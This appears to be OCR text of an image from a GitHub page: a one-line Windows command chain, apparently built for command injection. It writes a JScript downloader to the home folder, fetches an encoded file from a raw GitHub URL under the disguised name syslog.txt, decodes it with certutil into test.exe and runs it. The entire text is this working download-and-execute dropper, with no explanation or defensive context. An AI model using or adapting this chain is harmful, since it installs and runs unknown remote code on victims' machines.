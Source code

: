 echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); > c:%homepath%\wget.js "&" echo WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); >> c:%homepath%\wget.js "&" echo WinHttpReq.Send(); >> c:%homepath%\wget.js "&" echo WScript.Echo(WinHttpReq.ResponseText); >> c:%homepath%\wget.js "&" cscript /nologo c:%homepath%\wget.js https://raw.githubusercontent.com/suntop100/hello-world/master/vil.txt > c:%homepath%\syslog.txt "&" certutil -decode c:%homepath%\syslog.txt c:%homepath%\test.exe "&" c:%homepath%\test.exe
